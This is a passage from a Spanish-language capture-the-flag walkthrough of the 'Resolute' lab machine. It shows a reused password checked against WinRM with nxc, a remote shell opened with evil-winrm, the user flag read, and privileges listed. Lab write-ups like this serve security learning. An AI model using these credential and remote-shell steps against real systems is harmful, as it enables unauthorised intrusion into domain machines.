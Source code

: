 Y detectamos que esa credencial también la tiene el usuario `melanie`

## Abusing WinRM -> Foothold
```console
$ nxc winrm 10.129.201.75 -u melanie -p 'Welcome123!'
WINRM       10.129.201.75   5985   RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.129.201.75   5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

Vemos que este usuario parece estar en el grupo `Remote Management Users` por lo cual podemos hacer uso de herramientas como `evil-winrm` para conseguir una consola en la máquina víctima.

```console
$ nxc winrm 10.129.201.75 -u melanie -p 'Welcome123!'
WINRM       10.129.201.75   5985   RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.129.201.75   5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/resolute/content]
└──╼ [★]$ evil-winrm -i 10.129.201.75 -u melanie -p 'Welcome123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
```

Podemos ver la flag de usuario
```console
*Evil-WinRM* PS C:\Users\melanie\Desktop> type user.txt
3f3fe89c6f34ca3e...
```

# User Pivoting

El usuario `melanie` no tiene ningún privilegio especial.
```console
*Evil-WinRM* PS C:\Users\melanie\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
